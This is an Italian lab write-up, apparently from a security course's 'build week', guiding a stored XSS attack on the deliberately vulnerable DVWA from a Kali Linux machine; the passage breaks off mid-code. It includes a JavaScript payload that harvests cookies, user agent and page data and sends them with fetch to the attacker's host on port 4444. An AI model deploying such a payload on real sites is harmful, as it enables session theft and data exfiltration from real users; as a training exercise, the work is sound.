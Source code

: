 ## [Torna in cima](#-s8-build-week-2-report-operativo--cybercerberus).

---

---

# 🛡 **TRACCIA GIORNO 2: Exploit XSS Persistente su DVWA (Low e Medium)**

Questa guida documenta l'esecuzione di attacchi **Stored XSS** sulla piattaforma **DVWA** nei livelli di sicurezza **Low** e **Medium**. Verranno utilizzati payload compatti e tecniche per raccogliere informazioni sensibili, simulando un furto di dati.

---

## 🔧 Prerequisiti

1. **Ambiente configurato**:
   - **Kali Linux**: 192.168.50.165
   - **Metasploitable con DVWA**: 192.168.50.3
2. **DVWA configurato**:
   - Livelli di sicurezza impostati su **Low** e successivamente su **Medium**.
   - Database correttamente configurato.

---

## 📚 Struttura della guida

- **⚙️ Attacco al livello Low**: utilizzo di un payload diretto.
- **⚙️ Attacco al livello Medium**: utilizzo di un payload compatto con file remoto.
- **📊 Dump di dati**: raccolta di cookie, user agent e altre informazioni.
- **📸 Screenshot**: dimostrazione dei passaggi chiave.

---

## ⚙️ Attacco XSS Stored - Livello Low

### **1️⃣ Step 1: Preparazione**

1. Configura un web server su Kali Linux per ospitare il file `x.js`:
   
   ```bash
   python3 -m http.server 80
   ```

2. Crea il file `x.js` con il seguente contenuto:
   
   ```javascript
   // Raccogli tutte le informazioni disponibili
   let data = {
       cookies: document.cookie,
       userAgent: navigator.userAgent,
       language: navigator.language,
       platform: navigator.platform,
       screenResolution: `${screen.width}x${screen.height}`,
       windowSize: `${window.innerWidth}x${window.innerHeight}`,
       referrer: document.referrer,
       url: document.location.href,
       timestamp: new Date().toISOString()
   };
   
   // Invia i dati raccolti al server
   fetch('http://192.168.50.165:4444/', {
   ```